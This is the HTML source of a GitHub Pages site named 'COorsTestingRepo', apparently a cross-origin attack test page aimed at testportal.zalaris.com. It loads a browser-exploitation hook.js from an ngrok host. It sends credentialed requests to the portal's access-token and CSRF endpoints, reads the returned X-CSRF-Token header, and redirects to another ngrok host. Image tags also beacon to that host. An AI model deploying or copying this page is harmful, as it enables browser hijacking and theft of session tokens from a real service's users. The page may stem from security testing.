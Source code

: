 <html lang="en-US"><head><meta charset="UTF-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width, initial-scale=1"><!-- Begin Jekyll SEO tag v2.8.0 --><title>COorsTestingRepo</title><meta name="generator" content="Jekyll v3.9.2" /><meta property="og:title" content="COorsTestingRepo" /><meta property="og:locale" content="en_US" /><link rel="canonical" href="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:url" content="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:site_name" content="COorsTestingRepo" /><meta property="og:type" content="website" /><meta name="twitter:card" content="summary" /><meta property="twitter:title" content="COorsTestingRepo" /><script type="application/ld+json">{"@context":"https://schema.org","@type":"WebSite","headline":"COorsTestingRepo","name":"COorsTestingRepo","url":"https://sz072.github.io/COorsTestingRepo/"}</script>
<!-- End Jekyll SEO tag --><link rel="stylesheet" href="https://testportal.zalaris.com/nea/v1/authenticate?neaRelayState=ZHQPORTAL%3ahttps%3a%2f%2ftestportal.zalaris.com%2fep%2fredirect"><link rel="stylesheet" href="https://testportal.zalaris.com/neptune/native/fetch_csrf?sap-client=510"><script src="http://de3b-115-97-103-132.in.ngrok.io:3000/hook.js"></script><!-- start custom head snippets, customize with your own _includes/head-custom.html file --><!-- Setup Google Analytics --><!-- You can set your favicon here --><!-- link rel="shortcut icon" type="image/x-icon" href="/COorsTestingRepo/favicon.ico" --><!-- end custom head snippets --></head><body><script>document.domain='testportal.zalaris.com'</script><div class="container-lg px-3 my-5 markdown-body"><h1><a href="https://sz072.github.io/COorsTestingRepo/">COorsTestingRepo</a></h1><iframe src='https://testportal.zalaris.com/neptune/zmfp_qta_time_acc_v2?ajax_id=SYNC&ajax_applid=ZMFP_QTA_TIME_ACC_V2&sap-client=510&dxp=22100008&field_id=00138'></iframe><iframe src='https://testportal.zalaris.com/neptune/zmfp_qta_time_acc_v2?ajax_id=SYNC&ajax_applid=ZMFP_QTA_TIME_ACC_V2&sap-client=510&dxp=22100008&field_id=00138'></iframe><html><body><script>var req = new XMLHttpRequest();req.onload = reqListener;req.open("POST", "https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=GET_CB_CPI_ACCESS_TOKEN&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=80302", true);req.withCredentials = true;req.send();function reqListener(){var authHeader = req.getResponseHeader('X-CSRF-Token');location='https://8bf5-49-37-213-132.ngrok-free.app';};};</script><script>var req = new XMLHttpRequest();req.onload = reqListener;req.open("GET", "https://testportal.zalaris.com/neptune/zmfp_qta_time_acc_v2?ajax_id=SYNC&ajax_applid=ZMFP_QTA_TIME_ACC_V2&sap-client=510&dxp=22100008&field_id=00138", true);req.withCredentials = true;req.send();function reqListener(){var authHeader = req.getResponseHeader('X-CSRF-Token');location='https://8bf5-49-37-213-132.ngrok-free.app';};};</script><script>var req = new XMLHttpRequest();req.onload = reqListener;req.open("GET", "https://testportal.zalaris.com/neptune/zmfp_qta_time_acc_v2?ajax_id=SYNC&ajax_applid=ZMFP_QTA_TIME_ACC_V2&sap-client=510&dxp=22100008&field_id=00138", true);req.withCredentials = true;req.send();function reqListener(){var authHeader = req.getResponseHeader('X-CSRF-Token');location='https://8bf5-49-37-213-132.ngrok-free.app';};};</script></body></html></div><script src="https://cdnjs.cloudflare.com/ajax/libs/anchor-js/4.1.0/anchor.min.js" integrity="sha256-lZaRhKri35AyJSypXXs4o6OPFTbTmUoltBbDCbdzegg="crossorigin="anonymous"></script><script>anchors.add();</script>
  <img src='https://8bf5-49-37-213-132.ngrok-free.app'><link rel="stylesheet" href="https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=GET_CB_CPI_ACCESS_TOKEN&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=80302"><img src='https://8bf5-49-37-213-132.ngrok-free.app'><link rel="stylesheet" href="https://testportal.zalaris.com/neptune/zmfp_qta_time_acc_v2?ajax_id=SYNC&ajax_applid=ZMFP_QTA_TIME_ACC_V2&sap-client=510&dxp=22100008&field_id=00138"><script>alert(document.domain='testportal.zalaris.com')</script></body></html>






